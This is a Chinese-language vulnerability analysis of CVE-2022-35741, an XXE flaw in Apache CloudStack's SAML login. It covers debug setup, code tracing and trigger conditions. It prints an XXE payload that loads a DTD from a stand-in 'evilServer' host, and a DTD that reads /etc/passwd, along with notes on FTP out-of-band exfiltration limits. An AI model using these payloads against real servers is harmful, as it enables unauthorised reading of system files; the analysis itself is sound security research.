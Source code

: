 # CVE-2022-35741 Apache CloudStack SAML XXE注入


# 前言

最近爆了好多洞，看到有个XXE注入，正好前段时间刚分析完ZOHO那个XXE正好分析一波

# 环境搭建

跟着[官网](http://docs.cloudstack.apache.org/en/latest/installguide/building_from_source.html#downloading-the-release)安装，直接放弃，最后找到了docker的[镜像](https://hub.docker.com/r/ustcweizhou/cloudstack-simulator)，直接docker搭起来，不过在docker进行远程调试的时候又出现了巨多坑，整个环境搭了两天，环境为4.17.0.0

```
docker pull ustcweizhou/cloudstack-simulator 
docker run --name cloudstack-simulator -p 8888:5050 -p 9999:9999 -d ustcweizhou/cloudstack-simulator
```

其中8888是web端口，9999是要开启的远程调试端口，接下来直接按照以下命令执行即可

```
//在虚拟机当前目录新建一个supervisord的配置文件
vim supervisord.conf

//内容如下，里面只是在原先的基础上加了个idea的远程调试，端口为9999
[supervisord]
nodaemon=true

[program:mysqld]
command=/usr/bin/mysqld_safe
autostart=true
autorestart=true
user=root

[program:cloudstack]
command=/bin/bash -c "export MAVEN_OPTS='-agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=*:9999';mvn -pl client jetty:run -Dsimulator -Dorg.eclipse.jetty.annotations.maxWait=120"
directory=/root
stdout_logfile=/dev/stdout
stdout_logfile_maxbytes=0
user=root

[program:cloudstack-ui]
command=/bin/bash -c "npm run serve"
directory=/root/ui
stdout_logfile=/dev/stdout
stdout_logfile_maxbytes=0
user=root

//将conf文件复制到容器内
docker cp supervisord.conf 容器id:/etc/supervisor/conf.d/supervisord.conf

//进入容器
docker exec -it 容器id bash

//更新supervisord文件配置即可
supervisorctl update
```

# 漏洞分析

先来看一下补丁，很明显的XXE注入漏洞，可以看到对`responseMessage`先进行了base64解密，在进行了XML解析，我们逆着来看看哪里调用了`decodeSAMLResponse`

![1.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/7a868e20-27bd-55c3-d3b3-848c993b9715.png)

在`org.apache.cloudstack.api.command.SAML2LoginAPIAuthenticatorCmd#processSAMLResponse`中，调用了`decodeSAMLResponse`，继续往上找

![2.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/09a8b4ac-b3e3-2b26-a116-32fcb0843c28.png)

在同一个类中找到了`authenticate`函数，可以看到传入一个`idpId`，而它是从`params`中的`SAMLResponse`中取出的值并且强转为String类型，而`params`是一个Map类型的，那么`SAMLResponse`就是一个key，很有可能就是在request中传过来的，我们继续往上找

![3.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/2341fdd4-b6d4-e20c-7239-6b0877378bfb.png)

![4.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/08f79350-6e81-56a7-9d50-d294416dbd82.png)

成功在`ApiServlet`中找到了调用方式，在其`processRequestInContext`函数内调用了`authenticate`，而且可以看到`params`里的值就是request转化而来的键值对，并且doGet和doPost最后都调用了`processRequestInContext`函数，那么到最后解析xml的值就是我们可以控制的`SAMLResponse`

![5.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/94fcb129-0e16-baa6-8e94-7559cc91530e.png)

![6.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/3cf504fd-ce30-fbdf-0839-b5da4c35fb35.png)

![7.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/7583b0da-7c14-e094-6cdb-356083a0563c.png)

接着来看一下wen.xml看看ApiServlet对应的路由，在/api/下会被调用

![8.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/d4e35f7f-9806-98fb-680e-4280eca97586.png)

在web页面中看到网络发的包，拿来一个加上`SAMLResponse`参数来看看最后触发漏洞需要的条件

![9.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/b5763831-20da-fc51-36ec-2d1bdeeae57c.png)

在`processRequestInContext`中，需要满足`apiAuthenticator != null`这个条件才能进入到if语句中，进入if语句才能继续往下走，这就要`apiAuthenticator`必须有值，我们进入到`getAPIAuthenticator`来看一下

![10.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/641685e7-a346-f3ae-95c4-efbe59b7830e.png)

可以看到必须满足`s_authenticators != null && s_authenticators.containsKey(name)`条件，`apiAuthenticator`才不会为空，其中会检测传进来的name是否在`s_authenticators`内，而name就是我们可控的`command`，此时`command`的值需要为以下的几个值才符合条件，可以看到里面有两个值`samlsso`和`samlslo`，**该漏洞的触发就是需要在开启saml的前提下才会触发**而这两个值就是在开启saml后有的值，既然已经知道了触发条件直接将`command`值改为`samlsso`

> saml开启是在登录web后在全局配置中将`saml2.enabled`改为true即可

![11.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/71010d1b-accb-d883-fed1-fda1e7ebc389.png)

![12.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/fdb3f826-b504-165d-008c-5f2222811abf.png)

可以看到通过`command`获取的`apiAuthenticator`的值就是能够继续触发漏洞的`SAML2LoginAPIAuthenticatorCmd`

![13.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/48a6a8e0-3a9d-c3e7-9ad6-fb34805e1ab5.png)

最后对`SAMLResponse`的值进行base64解密后触发XXE漏洞，接下来构造payload触发

![14.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/84e4bb0b-d642-7262-cd8f-248e90fa80fc.png)

payload如下：

```xml
<?xml version="1.0" ?>
<!DOCTYPE message [
    <!ENTITY % ext SYSTEM "http://@evilServer:8000/ev.dtd">
    %ext;
]>
<message></message>
```

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

server端有被访问但是并没有回显，然后就想到了利用[ftp协议工具](https://github.com/LandGrey/xxe-ftp-server)进行回显，但是测试一直不成功，然后发现CloudStack的服务端jdk版本为`openjdk 11.0.15`，而在高版本中在`FtpURLConnection`类中进行url检测

![15.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/24daa5a5-4896-e0ce-738e-680038c1ee73.png)

会对换行符进行检测，如果有的话直接抛出异常，这里就尝试了很多方法都不能回显，在网上查文章发现好像高版本的XXE无回显确实无法利用，这里在网上看到一篇[文章](https://kylingit.com/blog/java-xxe%E4%B8%AD%E4%B8%A4%E7%A7%8D%E6%95%B0%E6%8D%AE%E4%BC%A0%E8%BE%93%E5%BD%A2%E5%BC%8F%E5%8F%8A%E7%9B%B8%E5%85%B3%E9%99%90%E5%88%B6/)，详细的解释了为什么高版本jdk的ftp无法利用

1. `<7u141`或`<8u131`：不会受文件中\n的影响
2. `>jdk8u131`：能创建FTP连接，外带文件内容中含有\n则抛出异常
3. `>jdk8u232`：不能创建FTP连接，只要url中含有\n就会抛出异常

![16.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/41f8ffc5-3378-d218-caa5-829e7414ad6f.png)

在调试的时候发现会在`detaiMessage`中回显/etc/passwd文件内容，但是并不会回显到前端

![17.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/dc022798-6fc4-62fe-8ab6-d8d6c30c2427.png)



